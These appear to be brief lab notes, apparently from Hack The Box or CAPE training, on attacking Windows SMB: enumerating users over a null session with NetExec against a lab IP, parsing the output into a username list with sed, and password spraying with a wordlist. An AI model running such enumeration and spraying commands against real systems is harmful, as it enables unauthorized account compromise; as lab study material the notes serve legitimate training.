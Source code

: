 # Notes

## Enumerate Users

```
nxc smb 10.129.204.177 -u '' -p '' --users --log /home/p3ta/HTB/CAPE/CME/smb_users.txt
```

Generate username word list

```
 sed -n 's/.*- INFO - SMB.*\s\+\([A-Za-z0-9_]\+\)\s\+\([<0-9]\|20\).*$/\1/p' smb_users.txt > users.txt
```

If NULL authentication does not work try using "guest"

## NXC Password Pray

Ensure continue-on-success

```
nxc smb 10.129.204.177 -u ./users.txt -p ./passwords.txt --continue-on-success
```

WMI Query Notes

[https://learn.microsoft.com/en-us/windows/win32/wmisdk/wql-sql-for-wmi](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wql-sql-for-wmi)
